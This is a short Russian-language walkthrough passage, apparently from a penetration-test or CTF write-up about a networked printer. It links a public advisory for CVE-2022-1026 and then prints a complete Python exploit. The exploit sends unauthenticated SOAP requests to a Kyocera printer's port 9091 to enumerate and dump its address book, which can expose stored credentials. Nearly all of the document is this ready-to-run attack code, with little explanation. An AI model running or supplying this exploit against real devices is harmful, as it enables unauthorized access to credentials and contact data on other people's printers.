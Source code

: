 <br><br>
<h2>Принтер 1</h2>
Исследуем что это за принтер, какой версии ПО и как работает.<br>
Погуглив, находим такой сплоит.<br>
<a href="https://www.rapid7.com/blog/post/2022/03/29/cve-2022-1026-kyocera-net-view-address-book-exposure">https://www.rapid7.com/blog/post/2022/03/29/cve-2022-1026-kyocera-net-view-address-book-exposure</a>


```python
import requests
import xmltodict
import warnings
import sys
import time
warnings.filterwarnings("ignore")
 
url = "https://{}:9091/ws/km-wsdl/setting/address_book".format(sys.argv[1])
headers = {'content-type': 'application/soap+xml'}
# Submit an unauthenticated request to tell the printer that a new address book object creation is required
body = """<?xml version="1.0" encoding="utf-8"?><SOAP-ENV:Envelope xmlns:SOAP-ENV="http://www.w3.org/2003/05/soap-envelope" xmlns:SOAP-ENC="http://www.w3.org/2003/05/soap-encoding" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:wsa="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:xop="http://www.w3.org/2004/08/xop/include" xmlns:ns1="http://www.kyoceramita.com/ws/km-wsdl/setting/address_book"><SOAP-ENV:Header><wsa:Action SOAP-ENV:mustUnderstand="true">http://www.kyoceramita.com/ws/km-wsdl/setting/address_book/create_personal_address_enumeration</wsa:Action></SOAP-ENV:Header><SOAP-ENV:Body><ns1:create_personal_address_enumerationRequest><ns1:number>25</ns1:number></ns1:create_personal_address_enumerationRequest></SOAP-ENV:Body></SOAP-ENV:Envelope>"""
 
response = requests.post(url,data=body,headers=headers, verify=False)
strResponse = response.content.decode('utf-8')
#print(strResponse)
 
 
parsed = xmltodict.parse(strResponse)
# The SOAP request returns XML with an object ID as an integer stored in kmaddrbook:enumeration. We need this object ID to request the data from the printer.
getNumber = parsed['SOAP-ENV:Envelope']['SOAP-ENV:Body']['kmaddrbook:create_personal_address_enumerationResponse']['kmaddrbook:enumeration']
 
body = """<?xml version="1.0" encoding="utf-8"?><SOAP-ENV:Envelope xmlns:SOAP-ENV="http://www.w3.org/2003/05/soap-envelope" xmlns:SOAP-ENC="http://www.w3.org/2003/05/soap-encoding" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:wsa="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:xop="http://www.w3.org/2004/08/xop/include" xmlns:ns1="http://www.kyoceramita.com/ws/km-wsdl/setting/address_book"><SOAP-ENV:Header><wsa:Action SOAP-ENV:mustUnderstand="true">http://www.kyoceramita.com/ws/km-wsdl/setting/address_book/get_personal_address_list</wsa:Action></SOAP-ENV:Header><SOAP-ENV:Body><ns1:get_personal_address_listRequest><ns1:enumeration>{}</ns1:enumeration></ns1:get_personal_address_listRequest></SOAP-ENV:Body></SOAP-ENV:Envelope>""".format(getNumber)
 
print("Obtained address book object: {}. Waiting for book to populate".format(getNumber))
time.sleep(5)
print("Submitting request to retrieve the address book object...")
 
 
response = requests.post(url,data=body,headers=headers, verify=False)
strResponse = response.content.decode('utf-8')
#rint(strResponse)
 
parsed = xmltodict.parse(strResponse)
print(parsed['SOAP-ENV:Envelope']['SOAP-ENV:Body'])
 
```